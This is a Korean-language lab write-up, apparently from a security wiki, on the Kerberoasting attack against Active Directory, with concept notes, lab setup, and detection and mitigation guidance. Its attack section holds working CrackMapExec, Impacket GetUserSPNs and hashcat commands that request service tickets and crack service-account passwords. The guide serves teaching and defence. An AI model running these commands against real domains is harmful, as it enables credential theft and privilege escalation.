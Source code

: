 ```yaml
---
description: MITRE ATTACK - T1558.003
---
```


# 커버로스팅 (Kerberoasting)

커버로스팅은 2014년도 DerbyCon 컨퍼런스에서 Tim Medin 이 발표한 액티브 디렉토리 포스트 익스플로잇 도메인 권한 상승 공격이다.

커버로스는 기본적으로 어떤 도메인 유저던 간에 Service Principal Name (SPN) 특성이 존재하는 서비스 유저를 상대로 한 Service Ticket (서비스 티켓) 을 TGS(Ticket Granting Service)를 통해요청하고 받아낼 수 있다. 커버로스팅은이 서비스 티켓은 서비스 유저의 NTLM 해시로 암호화 되어 있다. 따라서 `KRB_TGS_REPTGS` 를 받아 서비스 티켓을 추출한 뒤, 이를 메모리상에서 빼내서 오프라인 브루트 포스 공격을 감행해 TGS가 복호화가 된다면 서비스 유저의 비밀번호를 찾아내는 공격이다.

### 개념

1. 모든 도메인 유저는 SPN 특성이 존재하는 서비스 유저의 서비스 티켓을 도메인 컨트롤러에게 요청한 뒤 받을 수 있다.
2. KDC는 공격자가 해당 서비스에 접근 권한이 있는지 없는지 확인하지 않는다. 사용자가 제대로된 TGT를 가지고 있고 서비스 티켓을요청을 한다면, KDC 는 그에 맞는 서비스 티켓을 반환할 뿐이다.
3. 공격자에게 반환된 TGS는 서비스 유저 계정의 NTLM 해시화된 비밀번호로 RC4-HMAC (혹은 AES256) 암호화가 되어있다. 공격자는 서비스 티켓을 메모리에서 추출한 뒤 브루트포스 공격 혹은 사전 공격을 진행한다. 비밀번호 사전으로 NTLM 해시를 만들고, 그 NTLM 해시로 서비스 티켓을 복호화 하는데 성공한다면 서비스 계정의 비밀번호를 알아낸 것과 다름이 없게된다.

### 환경 준비

도메인 내에 서비스 유저 계정을 만든 뒤, SPN 특성을 부여해준다.

```powershell
net user sqladmin Password123! /domain /add 
setspn -A <서비스_이름>/<호스트_FQDN>:<포트> <서비스_계정_이름>

setspn -A MSSQL/dc01.choi.local:31337 sqladmin
```

### 공격

다양한 툴로 커버로스팅 공격을 실행한 뒤, 서비스 티켓을 base64+해시 형태로 받아온다. 그 뒤, 브루트포스와 서비스 티켓 복호화 공격을 실행한다.

{% tabs %}
{% tab title="리눅스" %}
CrackMapExec (cme) 나 Impacket의 GetUserSPNs.py를 이용

```
# CrackMapExec
cme ldap 192.168.40.150 -u low -p 'Password123!' -d choi.local --kerberoasting kerberoast.hashes

# CrackMapExec - hash
cme ldap 192.168.40.150 -u low -H <NT해시>--kerberoast kerberoast.hashes 

# Impacket - GetUSersSPNs
impacket-GetUserSPNs -request 'choi.local/low:Password123!' -outputfile kerberoast.hash

# impacket - GetUsersSPNs - hash 
impacket-GetUserSPNs -request 'choi.local/low' -hashes <LM해시>:<NT해시> -outputfile kerberoast.hash
```
{% endtab %}
{% endtabs %}

큰 환경에서 커버로스팅 공격을 실행하면 같은 서비스 유저의 TGS가 중복으로 반환될때가 있다. 특정 서비스 유저의 서비스 티켓은 하나의 NTLM 해시로 암호화 되었기 때문에 중복된 TGS를 모두 복호화할 필요는 없다. 하나만 복호화가 되도 유저의 평문 비밀번호를 알아낸 것이다. 따라서 유저의 이름과 도메인을 기반으로 중복 TGS를 지운다.

```
# 3번째 필드 - 유저 이름을 기반으로 TGS를 지운다. 
cat kerberoast.hashes | sort -u -k 3,3 -k 4,4
```

### 브루트포스와 TGS 복호화

hashcat이나 johntheripper를 사용해 NTLM 해시를 만들고, 복호화하는 브루트포스를 실행한다.

```
.\hashcat.exe -a 0 -m 13100 .\kerberoast.hashes .\rockyou.txt
```

## 대응 방안

1. [Managed Service Account](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009) (MSA) 및 [Group Managed Service Account](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) (gMSA) 기능을 사용해 자동적으로 강력한 비밀번호가 설정되도록 한다.
2. MSA/gMSA 기능을 사용하지 못할 경우 수동으로 강력한 비밀번호를 설정한다.
3. [Fine-Grained Password Policy](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/introduction-to-active-directory-administrative-center-enhancements--level-100-#bkmk\_create\_fgpp) (FGPP)를 사용해 서비스 계정에 약한 비밀번호가 설정되는 것을 차단한다.
4. 다음의 GPO를 사용해 서비스 티켓 암호화를 약한 RC4-HMAC이 아닌 AES256로 설정한다.

```
Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network Security: Configure encryption types allowed for Kerberos 

AES256_HMAC_SHA1 설정
```

### 탐지 방안

다음의 탐지 방안은 많은 숫자의 로그를 생성할 수 있으니 프로덕션에 적용하기 전 충분한 테스트를 거쳐야한다.

서비스 티켓발급 현황을 로깅하는 다음의 GPO를 설정한다. 이는 Event 4769 - Kerberos Service Ticket was Requested 이벤트를 로깅한다.

```
Default Domain Controllers Policy/Computer Configuration/Policies/Windows Settings/Security Settings/Advanced Audit Policy Configuration/Audit Policies/Account Logon/Audit Kerberos Service Ticket Operations - Success
```

이후, 다음의 로직을 기반으로 SOC 알람을 설정한다.

1. 이벤트 아이디 4769 중 `Ticket Encryption Type: 0x17` (RC4-HMAC)이 보인다.
2. 낮은 권한의 도메인 유저가 빠른 시간 (1\~2분) 내에 대량의 0x17 암호화된 TGS를 요청한다.

### 레퍼런스

{% embed url="https://en.hackndo.com/kerberoasting/" %}

{% embed url="https://adsecurity.org/?p=3458" %}

{% embed url="https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797" %}
